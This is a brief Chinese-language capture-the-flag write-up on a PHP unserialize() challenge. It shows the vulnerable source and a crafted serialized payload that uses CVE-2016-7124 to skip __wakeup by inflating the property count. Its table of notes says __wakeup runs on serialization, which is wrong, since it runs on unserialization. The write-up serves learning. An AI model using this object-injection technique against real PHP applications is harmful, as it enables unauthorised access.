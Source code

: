 ## 進去就看到他給的php
```php
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);
?>
```
## `HaHaHa`在創建時給定`admin`和`passwd`的值 -> 先把它們的值改了再做序列化

### 得到`O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}` 

## 把這個當p存入 -> `no wake up`

## 要把属性数目改大`__wakeup`才會失效

# `O:6:"HaHaHa":2:` -改成->`O:6:"HaHaHa":3:`

|知識點||
|----|-----|
|# 绕过wakeup的重點| **成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)**|
|__construct|創建時自動用|
|__destruct|結束時自動用|
|__wakeup|序列化時候會自動用|
